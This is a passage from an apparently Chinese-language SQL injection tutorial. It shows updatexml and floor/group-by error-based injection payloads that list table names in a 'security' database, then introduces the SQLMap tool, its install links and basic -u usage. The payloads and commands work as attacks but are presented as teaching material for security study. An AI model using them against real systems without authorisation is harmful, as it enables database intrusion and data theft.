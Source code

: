 `select 1 or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1);`
![30](https://img-blog.csdnimg.cn/09b4b8f09daf49d8b4738787ac5d86e0.png#pic_center)
#### 2.6.6.3 floor函数
`floor()报错注入`准确地说应该是`floor,count,group by冲突报错`
是当这三个函数在特定情况一起使用产生的错误
`select 1,count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a;`
`select 1,count(*),concat(0x3a,0x3a,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x3a,0x3a,floor(rand(0)*2)) a
from information_schema.columns group by a;`
![31](https://img-blog.csdnimg.cn/8e5703c03f4e4f73a510c5bd1bb3fbde.png#pic_center)
# 三、SQLMap工具概述及介绍
## 3.1 SQLMAP是什么？
SQLMAP是一个`开源`的自动化SQL注入工具，其主要功能是`扫描`、 `发现`并`利用`给定的URL的SQL注入漏洞。
![32](https://img-blog.csdnimg.cn/8efe7a619dc540569e274e83b62d6f27.png#pic_center)
**SQLMAPT载安装**
[官网：http://sqlmap.org](http://sqlmap.org)
[GitHub：https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)
`注意：`安装之前系统需要配置Python环境！
([https://www.python.org/downloads/](https://www.python.org/downloads/))

**SQLMAP使用教程**
[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

**SQLMAP支持的注入技术**
**•** 基于布尔的盲注：根据返回页面判断条件真假的注入。
**•** 基于时间的盲注：不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
**•** 基于报错的注入：页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
**•** 基于联合查询的注入：可以使用UNION的情况下的注入。
**•** 堆查询注入：同时执行多条语句的注入。

**SQLMAP支持的数据库类型**
**•** 主要包括一些关系型数据库（RMDBS ）,如 MySQL、Oracle、PostgreSQL s
Microsoft SQL Ser ver、Microsoft Access、RM DB2、 SQLite、Firebird、
Sybase、SAP MaxDB、Informix、HSQLDB等

## 3.2 SQLMAP基本使用
### 3.2.1 常见用法1: -u参数（直接输入目标URL）
**命令实例：** `sqlmap -u   “www.test.com/index.php?id=1`

**验证过程**
**•** 判断可注入的参数
**•** 判断可以用哪种SQL注入技术来注入
**•** 识别出所有存在的注入类型
**•** 尝试去判定数据库版本、开发语言、操作系统版本
